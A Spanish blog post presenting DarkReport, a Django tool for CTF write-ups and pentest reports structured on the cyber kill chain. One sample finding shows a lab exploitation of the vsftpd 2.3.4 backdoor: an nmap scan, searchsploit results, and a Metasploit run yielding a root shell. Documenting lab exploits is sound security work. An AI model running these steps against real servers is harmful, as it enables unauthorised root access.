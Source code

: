 ```yaml
---
title: DarkReport
date: 2025-9-11 11:00:00 +0200
categories: [ciberseguridad, software]
tags: [darkreport, writeup, django]     
image:
    path: https://github.com/pmartinezrhub/DarkReport/raw/main/DarkReport/static/DarkReport/dark-report-logo.png
    alt:  
---
```

## DarkReport
Cuando las herramientas que existen no te satisfacen seguramente sea hora de que hagas la tuya propia, la que se adapta a tus necesidades, gustos 
o que tenga mejor usabilidad, rapidez, etc. Como estaba probando tantas herrientas de reporting que me ayudasen a escribir writes ups, tomar notas 
y apuntes de los retos se me ocurrió la idea de crear DarkReport. Lo he diseñado para escribir un write up de un CTF o también para crear un informe de vulnerabilidades. 

## Está basado en las 7 etapas de un ciberataque (killchain)

Como no siempre es necesario las 7 fases ni tampoco es necesario para hacer un reporte, la aplicación esta diseñada para simplificar los reportes sin perder la opción de explicar las 7 fases, cuando se crea un hallazgo algunos campos son obligatorios de otra forma la vulnerabilidad no se explica y si no se explica, no se sabría solucionar. 

- Reconocimiento, es una fase muy importante, pero no siempre necesaria, a veces nos enteramos de que la versión de algún software que estamos utilizando presenta alguna vulnerabilidad. 

- Preparación:  Que herramientas se utilizan para infectar el sistema, troyanizarlo etc, no siempre es requerido dado que por ejemplo un RCE ya nos permite ejecutar comandos en un sistema de forma remota

- Distribución. Me parece muy imporante que los reportes incluya como se entrega el payload aunque en algunos casos sea una obviedad

- Explotación. La explicación técnica de porque ocurre este error/bug o falla de seguridad.

- Instalación: No siempre necesario, pero puede describirse como que programa, malware o rat, queda instalado para ser persistente en el sistema. 

- Comando y control. Como se crea el canal de comunicación con el atacante. Puertos usados, protocolos, etc.

- Acciones en el objetivo: Que acciones puede realizar el adversario una vez tiene comando y control.

![kill chain](https://upload.wikimedia.org/wikipedia/commons/1/1d/Intrusion_Kill_Chain_-_v2.png)

## Login
Por supuesto he implementado una pantalla de login para que no cualquiera pueda entrar a la aplicación.
En el Readme del proyecto podrás encontrar las instrucciones de como cambiar la password por defecto. 
![login](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/login.png)

## Panel principal
Al entrar en la aplicación te encontrarás una vista de general con una métricas y graficos. En el panel izquierdo podemos cerrar sesión y/o crear nuevos proyectos.
![dashboard](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/dashboard.png)

### Idioma
Actualmente podemos seleccionar inglés o español, pero está pensado para traducirse a todos los idiomas posibles medidante el uso de locales. En el panel arriba a la derecha

### Resumen
Contine un resumen de la cantidad de proyectos, reportes y hallazgos. 

### Estadísticas 
Proporciona un grafico de las vulnerabilidades actuales y otro de los CVEs encontrados

## Crear proyectos
Simplemente creas un proyecto que albergará los reportes, podemos ponerle el nombre de la empresa, cliente o del sitio, etc que vamos a auditar. 
La vista mostrará las vulnerabilidades en cada reporte ordenadas por la prioridad. 

![vista proyecto](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/project_view.png)

## Crear reportes
Cada reporte se crea indicando un objetivo, que puede ser un host, una api, o simplemente inventar un nombre, estos reportes contendrán los hallazgos

## Crear hallazgos
Cuando creamos un hallazgo es donde realmente vamos a idenficar la vulnerabilidad y tratar de explicarla en las 7 fases de pausible ataque. 
Se puede buscar un CVE, la aplicación buscará automáticamente el código CVE-XXX-XXX en la base de datos NITS para cargar el Ajax que nos indica que estamos introduciendo un CVE correcto. 
![find](https://raw.githubusercontent.com/pmartinezrhub/DarkReport/refs/heads/main/screenshots/find_detail_view.png)

Al pulsar el botón copiar vamos a obtener un reporte de solo el hallazgo

``` shell
⚠1:  ⚠️ Vulnerabilidad - Remote Code Execution (RCE)
⚠️ CVE: CVE-2011-2523
🔭 Reconocimiento: nmap -p- 10.88.0.2 -sV -vv
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 72:67:68:3C:12:BD (Unknown)
Service Info: OS: Unix
💣 Preparación: └─$ searchsploit vsftpd 2.3.4
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                    | unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Result
🚚 Distribución: msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.88.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.88.0.2:21 - USER: 331 Please specify the password.
[+] 10.88.0.2:21 - Backdoor service has been spawned, handling...
[+] 10.88.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.88.0.1:42055 -> 10.88.0.2:6200) at 2025-09-08 01:06:11 +0200
whoami
root
🪲 Explotación: En julio de 2011, se descubrió que la versión 2.3.4 de vsftpd, descargable desde el sitio principal, había sido comprometida. Los usuarios que iniciaban sesión en un servidor vsftpd-2.3.4 comprometido podían usar una cara sonriente :) como nombre de usuario y obtener acceso a una consola de comandos en el puerto 6200. Esto no se debía a una vulnerabilidad de seguridad en vsftpd, sino a que alguien había subido una versión diferente de vsftpd que contenía una puerta trasera. Desde entonces, el sitio se migró a Google App Engine.
```
Ahora solo tenemos que pergarlo a nuestro write up o al informe final y añadir lo que necesitemos como marcas de markdown etc. 
Te dejo el ejemplo de como quedó después de retocarlo un mínimo aquí: [dockerlabs-firsthacking](../dockerlabs-firsthacking)

### Campos obligatorios y opcionales
Campos obligatorios:
- Tipo de vulnerabilidad - Por defecto es Information disclouser pero hay una lista de todas la vulnerabilidades conocidas.. 
- Distribución  
- Explotación
- Prioridad - Por defecto baja. Los hallazgos dentro de cada reporte se ordenarán por prioridad.

Campos opcionales:
- CVE - Como ya indique se carga con Ajax contra la API del Nist.
- Preparación
- Instalación
- Comando y control
- Acciones en los objetivos
- Fichero recon . Voy a desarrollarlo más pero de momento he dejado la posibilidad de adjuntar un fichero.

![](https://upload.wikimedia.org/wikipedia/commons/thumb/c/c2/The_Unified_Kill_Chain.png/1920px-The_Unified_Kill_Chain.png)

Por supuesto la herramienta permite modificar los hallazgos así como borrar proyectos, reportes, exportar datos, etc. 

## Desarrollo
DarkReport esta desarrollado con el framework Django (Python)

 - 1 Como cualquier software, evoluciona, irá mutandom mejorando y acepta contribuciones ideas y desarrollos, me gustaría tener opiniones para mejorar la herramienta.
Es la primera versión, pero iré mejorándola poco a poco . 

 - 2 Su diseño es iconográfico, sencillo y de momento un diseño oscuro de ahí un poco su nombre. 

Puedes descargarlo y obtener más instrucciones desde de este repositorio de Github incluye Dockerfile para desplegar rapidamente el proyecto.
[https://github.com/pmartinezrhub/DarkReport](https://github.com/pmartinezrhub/DarkReport)
 